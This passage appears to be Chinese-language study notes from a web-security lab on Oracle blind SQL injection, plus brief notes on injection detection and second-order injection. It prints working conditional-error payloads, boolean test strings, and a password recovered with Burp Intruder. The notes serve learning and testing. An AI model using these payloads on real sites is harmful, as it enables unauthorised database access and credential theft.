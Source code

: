 ##### 例子2

得知数据库是Oracle，当语句为

```sql
' AND (SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM DUAL)='a
```

显示错误

![image-20220115124615557](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115124615557.png)

当语句为

```sql
' AND (SELECT CASE WHEN(1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM DUAL)='a
```

正常显示，故存在SQL注入漏洞

![image-20220115124720986](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115124720986.png)

同样的使用Intruder猜解

![image-20220115125844632](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115125844632.png)

密码长度为20

![image-20220115130716332](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115130716332.png)

密码为：1p5msfyngan9bgvrb6gw

![image-20220115132409662](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115132409662.png)

## SQL注入检测方法

- 基于报错的检查方法
  使用各种符号及组合，如单引号'，双引号"，括号(和百分号%
- 基于布尔的检测
  最常用的' and '1'='1和' and '1'='2等同于' and '1'和'and '0'，判断寻找网站应用程序响应（返回结果）的不同

## 二阶注入

![image-20220115143703554](https://raw.githubusercontent.com/lant34m/pic/main/img/image-20220115143703554.png)

二阶是利用存储在数据库中的合法内容，追加构造SQL查询语句达到SQL注入攻击的目的。

> 通过构造特殊的输入内容传给服务端或数据库达到欺骗服务器执行恶意的SQL命令。因为其利用方式比较独特，需要提前在数据库中插入已经构造好的内容，并利用已有内容进行语句组合提交，方可成功利用，所以称其为二次注入或二阶注入。

### 思路

> 转载于[**https://www.secpulse.com/archives/76506.html**](https://www.secpulse.com/archives/76506.html)
